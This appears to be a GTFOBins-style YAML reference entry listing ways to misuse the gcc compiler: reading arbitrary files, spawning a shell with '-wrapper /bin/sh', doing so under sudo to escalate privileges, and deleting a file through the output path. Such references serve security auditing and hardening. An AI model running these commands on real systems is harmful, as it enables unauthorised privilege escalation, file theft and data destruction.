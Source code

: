 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        gcc -x c -E "$LFILE"
  shell:
    - code: gcc -wrapper /bin/sh,-s .
  sudo:
    - code: sudo gcc -wrapper /bin/sh,-s .
  file-delete:
    - code: |
        echo "int main(){printf(\" Hello \");return 0;}" > /tmp/oye.c ; gcc -nostdlib /tmp/oye.c -o [FILE-TO-DELETE] .
---
```

